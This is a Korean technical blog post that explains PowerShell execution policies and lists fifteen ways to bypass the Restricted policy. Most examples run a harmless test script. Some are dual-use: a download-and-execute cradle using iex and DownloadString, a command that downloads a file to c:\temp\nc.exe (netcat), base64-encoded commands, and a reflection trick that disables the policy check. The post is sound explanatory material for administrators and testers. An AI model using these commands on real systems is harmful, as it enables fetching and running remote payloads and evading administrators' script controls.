 ```yaml
---
layout: post
title: Execution Policy의 Restricted을 우회하여 PowerShell 실행
description: "Execution Policy의 Restricted을 우회하여 PowerShell 실행"
modified: 2018-12-19
tags: [PowerShell]
---
```



## 개요
> 윈도우 파워셸(Windows PowerShell)은 마이크로소프트가 개발한 확장 가능한 명령 줄 인터페이스(CLI) 셸 및 스크립트 언어를 특징으로 하는 명령어 인터프리터이다. 스크립트 언어는 닷넷 프레임워크 2.0을 기반으로 객체 지향에 근거해 설계되었다. - wikipedia

- `ps1` 파일은 기본 보안정책으로 사용이 불가능
    + Windows Server 2012 R2만 기본 보안정책 설정이 `RemoteSigned`
    + 그 외 모든 버전(Windows 8.1 포함)은 기본 보안정책 설정이 `Restricted`
- 스크립트를 실행하려면 Execution Policy 허용 필요
    + 로컬 컴퓨터에서는 관리자 권한으로 Execution Policy 설정이 가능
    + 보안 강화를 위해 Active Directory의 Group Policy를 통하여 설정 가능  
    + Active Directory > Group Policy Management > `Turn on Script Execution` 설정
    ![](https://user-images.githubusercontent.com/16396760/50433736-61249600-091d-11e9-94f5-5d66aa02c215.png)
    + Group Policy 설정하면 관리자 권한으로도 Policy Execution 을 변경 불가
    ![](https://user-images.githubusercontent.com/16396760/50433738-61bd2c80-091d-11e9-9efd-b8d472b55b08.PNG)


-----
## 테스트 환경 설정

### Execution Policy 확인  
```
 PS > Get-ExecutionPolicy -List | ft -Autosize
```
![001](https://user-images.githubusercontent.com/16396760/50223763-752d3c80-03df-11e9-87da-b9c1de4b4c6d.png)

### 실행 정책 변경 (관리자 권한)  
```
PS > Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
PS > Set-ExecutionPolicy Bypass
PS > Set-ExecutionPolicy Restricted -Force
```
  
### Execution Policy 종류

| Policy | Local Script 실행 | Remote Script 실행 |
|:------:|:---------------:|:-----------------:| 
| Restricted| 불가능| 불가능 |
| AllSigned | 디지털 서명된 스크립트실행 가능 | 디지털 서명된 스크립트실행 가능|
| RemoteSigned | 가능 | 디지털 서명된 스크립트실행 가능|
| Unrestricted | 가능 | 가능 |
| Bypass | 가능 | 가능 |


- Remote Signed
    + 로컬 저장된 스크립트는 실행 가능
    + 원격에서 다운로드한 스크립트는 디지털 서명된 경우에만 실행 가능
        ```  
        PS > \\[원격]\Process.ps1
        PS > invoke-Expression -Command \\[원격]\Process.ps1
         ```
- UnRestricted
    + 원격에 있는 스크립트를 실행할때는 경고창을 출력후 실행
- Restricted
    + 로컬/원격 스크립트 모두 실행 불가
- Bypass
    + 로컬/원격 스크립트 실행 가능
         ```
        # 관리자 사용 
        PS > Set-ExcutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
         ```
- AllSigned
    + 스크립트에 디지털 서명이 되어있지 않으면 실행 불가
    + Group Policy로 AllSigned로 설정하면 각 컴퓨터에서는 설정 변경을 하지 못하므로 디지털 서명된 스크립트 파일만 실행 가능

----
## 정책을 우회 하여 PowerShell 실행
간단한 스크립트를 작성하여 ps1파일로 저장 후 실행
```
Write-Host "Hello World! run me!!!"
```
- `Get-ExecutionPolicy` 명령어로 실행 정책 확인
    ![003](https://user-images.githubusercontent.com/16396760/50223765-752d3c80-03df-11e9-9c4f-89365eba3494.png)
- `Restricted` 정책일 경우 PowerShell 스크립트 사용 불가
    ![002](https://user-images.githubusercontent.com/16396760/50223764-752d3c80-03df-11e9-80e0-9ec3bf400bc2.png)



1. Paste the Script into an Interactive PowerShell Console
    ![004](https://user-images.githubusercontent.com/16396760/50223766-75c5d300-03df-11e9-9f0e-bf8f2153b4ed.png)

2. Echo the Script and Pipe it to PowerShell Standard In
    ```
    Echo Write-Host "Hello World! run me!!!"  | PowerShell.exe -noprofile -
    ```  
    ![006](https://user-images.githubusercontent.com/16396760/50223768-75c5d300-03df-11e9-8a99-72de6bfb3a45.png)

3. Read Script from a File and Pipe to PowerShell Standard In
    ```
    Get-Content .run.ps1 | PowerShell.exe -noprofile - 
    ```
    ![005](https://user-images.githubusercontent.com/16396760/50223767-75c5d300-03df-11e9-8f83-27d1dc04ad28.png)
    ```
    TYPE .runme.ps1 | PowerShell.exe -noprofile -
    ```
    ![007](https://user-images.githubusercontent.com/16396760/50223769-75c5d300-03df-11e9-8f2b-c01bd19044a7.png)

4. Download Script from URL and Execute with Invoke Expression
    ```
    powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL주소')"
    powershell -nop -c "Invoke-Expression(New-Object Net.WebClient).DownloadFile('URL주소', c:\temp\nc.exe)"
    ```

5. Use the Command Switch
    ```
    Powershell -command "Write-Host 'My voice is my passport, verify me.'"
    ```
    ![008](https://user-images.githubusercontent.com/16396760/50223770-765e6980-03df-11e9-81dd-c5e9aa859ffc.png)

6. Use the EncodeCommand Switch
    ```
    $command = "Write-Host 'My voice is my passport, verify me.'" 
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
    $encodedCommand = [Convert]::ToBase64String($bytes) 
    powershell.exe -EncodedCommand $encodedCommand
    ```
    ![010](https://user-images.githubusercontent.com/16396760/50223772-765e6980-03df-11e9-880b-9e3de9e40b8e.png)

    ![011](https://user-images.githubusercontent.com/16396760/50223773-76f70000-03df-11e9-86a1-2a7af5d44d3b.png)

7. Use the Invoke-Command Command
    ```
    invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
    ```
    ![012](https://user-images.githubusercontent.com/16396760/50223774-76f70000-03df-11e9-8804-f8bc44943a33.png)

8. Use the Invoke-Expression Command
    ![013](https://user-images.githubusercontent.com/16396760/50223775-76f70000-03df-11e9-8b4e-d89850d05b4c.png)

    ![014](https://user-images.githubusercontent.com/16396760/50223776-778f9680-03df-11e9-93b2-1f16dcc3cbba.png)

9. Use the “Bypass” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Bypass -File .run.ps1
    ```
    ![015](https://user-images.githubusercontent.com/16396760/50223777-778f9680-03df-11e9-93cf-70c08125dc52.png)

10. Use the “Unrestricted” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy UnRestricted -File .run.ps1
    ```
    ![016](https://user-images.githubusercontent.com/16396760/50223779-78282d00-03df-11e9-911b-02ce4f8cd44a.png)

11. Use the “Remote-Signed” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1
    ```
    
12. Disable ExecutionPolicy by Swapping out the AuthorizationManager
    ```
    PS > function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
    PS > Disable-ExecutionPolicy
    PS > .\runme.ps1
    ```
    ![017](https://user-images.githubusercontent.com/16396760/50223780-78282d00-03df-11e9-91a6-973303e626c2.png)

13. Set the ExcutionPolicy for the Process Scope
    ![018](https://user-images.githubusercontent.com/16396760/50223781-78282d00-03df-11e9-9508-1bad6439f319.png)

14. Set the ExcutionPolicy for the CurrentUser Scope via Command
    ```
    Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
    ```
    ![019](https://user-images.githubusercontent.com/16396760/50223782-78282d00-03df-11e9-9cd6-7a19350aaf5c.png)

15. Set the ExcutionPolicy for the CurrentUser Scope via the Registry
    ```
    HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell
    ```
    ![021](https://user-images.githubusercontent.com/16396760/50223784-78c0c380-03df-11e9-8676-246d6810a134.png)
    ![020](https://user-images.githubusercontent.com/16396760/50223783-78c0c380-03df-11e9-83c4-007639c7203b.png)


#### 참조
 [Microsoft](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-6)  
 [NETSPI](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)  
 [Winaero](https://winaero.com/blog/change-powershell-execution-policy-windows-10/)  
